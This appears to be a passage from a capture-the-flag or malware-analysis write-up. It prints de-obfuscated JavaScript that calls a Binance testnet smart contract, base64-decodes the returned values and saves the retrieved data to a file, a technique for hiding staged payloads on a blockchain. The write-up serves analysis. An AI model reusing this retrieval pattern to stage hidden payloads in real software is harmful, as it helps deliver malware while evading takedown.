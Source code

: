 ![consolelog](img/03.png)

Here is the de-obfuscated JS

```javascript
const Web3 = require("web3");
const fs = require("fs");
const web3 = new Web3("BINANCE_TESTNET_RPC_URL");
const contractAddress = "0x9223f0630c598a200f99c5d4746531d10319a569";
async function callContractFunction(inputString) {
    try {
        const methodId = "0x5684cff5";
        const encodedData = methodId + web3.eth.abi.encodeParameters(["string"], [inputString]).slice(2);
        const result = await web3.eth.call({
            to: contractAddress,
            data: encodedData
        });
        const largeString = web3.eth.abi.decodeParameter("string", result);
        const targetAddress = Buffer.from(largeString, "base64").toString("utf-8");
        const filePath = "decoded_output.txt";
        fs.writeFileSync(filePath, "$address = " + targetAddress + "\n");

        const new_methodId = "0x5c880fcb";
        const blockNumber = 43152014;
        const newEncodedData = new_methodId + web3.eth.abi.encodeParameters(["address"], [targetAddress]).slice(2);
        const newData = await web3.eth.call({
            to: contractAddress,
            data: newEncodedData
        }, blockNumber);
        const decodedData = web3.eth.abi.decodeParameter("string", newData);
        const base64DecodedData = Buffer.from(decodedData, "base64").toString("utf-8");
        fs.writeFileSync(filePath, decodedData);
        console.log(`Saved decoded data to:${filePath}`)
    } catch (error) {
        console.error("Error calling contract function:", error)
    }
}

const inputString = "KEY_CHECK_VALUE";
callContractFunction(inputString);
```
